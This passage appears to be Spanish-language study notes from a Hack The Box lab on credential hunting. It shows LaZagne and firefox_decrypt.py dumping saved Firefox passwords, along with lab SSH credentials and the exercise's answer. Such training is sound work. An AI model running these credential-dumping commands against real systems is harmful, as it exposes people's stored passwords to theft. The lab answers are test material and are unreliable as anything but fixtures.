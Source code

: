 LaZagne también puede correr búsquedas en navegadores si utilizamos navegadores soportados por este servicio:
```
Polika4RM@htb[/htb]$ python3 laZagne.py browsers

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Firefox passwords -----------------

[+] Password found !!!
URL: https://testing.dev.inlanefreight.com
Login: test
Password: test

[+] Password found !!!
URL: https://www.inlanefreight.com
Login: cry0l1t3
Password: FzXUxJemKm6g2lGh


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 0.2310788631439209
```

---
**Target(s): 10.129.101.108
SSH to  with user "kira" and password "L0vey0u1!"**
**1. Examine the target and find out the password of the user Will. Then, submit the password as the answer.

Ejecutando en la víctima un 
```
kira@nix01: python3.9 firefox_decrypt.py

Website: https://dev.inlanefreight.com
Username: 'will@inlanefreight.htb'
Password: 'TUqr7QfLTLhruhVbCP'
```